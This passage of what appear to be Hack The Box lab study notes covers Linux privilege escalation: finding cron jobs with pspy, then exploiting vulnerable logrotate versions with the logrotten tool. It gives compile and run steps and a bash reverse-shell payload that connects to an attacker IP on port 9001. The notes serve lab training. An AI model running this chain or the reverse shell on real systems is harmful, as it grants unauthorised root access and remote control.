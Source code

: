 We can confirm that a cron job is running using [pspy](https://github.com/DominicBreuker/pspy), a command-line tool used to view running processes without the need for root privileges. We can use it to see commands run by other users, cron jobs, etc. It works by scanning [procfs](https://en.wikipedia.org/wiki/Procfs).
Let's run `pspy` and have a look. The `-pf` flag tells the tool to print commands and file system events and `-i 1000` tells it to scan [procfs](https://man7.org/linux/man-pages/man5/procfs.5.html) every 1000ms (or every second).

- `dollarboysushil@htb[/htb]**$** ./pspy64 -pf -i 1000`

# **Logrotate**

`logrotate` takes care of archiving or disposing of old logs to hard disk from overflowing from large amount of log files.

To exploit `logrotate`, we need some requirements that we have to fulfill.

1. we need `write` permissions on the log files
2. logrotate must run as a privileged user or `root`
3. vulnerable versions:
    - 3.8.6
    - 3.11.0
    - 3.15.0
    - 3.18.0
    

we can use this tool https://github.com/whotwagner/logrotten

```
logger@nix02:~$ git clone https://github.com/whotwagner/logrotten.git
logger@nix02:~$ cd logrotten
logger@nix02:~$ gcc logrotten.c -o logrotten
```

- `logger@nix02:~**$** echo 'bash -i >& /dev/tcp/10.10.14.2/9001 0>&1' > payload` → creating payload

However, before running the exploit, we need to determine which option `logrotate` uses in `logrotate.conf`.

```
logger@nix02:~$ grep "create\|compress" /etc/logrotate.conf | grep -v "#"
create
```

- `logger@nix02:~**$** ./logrotten -p ./payload /tmp/tmp.log` → running the exploit

1. create payload => bash -i >& /dev/tcp/10.10.14.10/9001 0>&1
2. transfer logrotten.c file to the machine
3. run logrotten => ./logrotten -p ./payload /home/htb-student/backups/access.log
on different ssh do below cmd
4. trigger log rotate => echo test > /home/htb-student/backups/access.log

# **Weak NFS Privileges**
